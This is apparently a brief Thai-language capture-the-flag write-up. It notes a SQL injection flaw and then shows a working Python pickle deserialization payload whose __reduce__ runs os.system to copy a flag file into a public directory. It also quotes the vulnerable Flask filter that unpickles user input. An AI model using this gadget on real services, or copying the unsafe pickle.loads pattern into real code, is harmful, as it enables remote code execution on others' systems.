






code มีช่องโหว่ sql injectoion

ลอง payload ต่างๆ ทำ multistate sql ไม่ได้ ,ไม่มี writefile 

```
import pickle
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

command = 'cp /app/flag.txt /app/application/static/images/flag.txt' 
payload = base64.b64encode(pickle.dumps(PickleRCE())) 
print(f"Payload: {payload}")
```


https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/blob/main/THM_pickle_owasp10_room.py



```
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
```

หาก template ใช้ filter pickle จะเรียกใช้ pickle_loads function





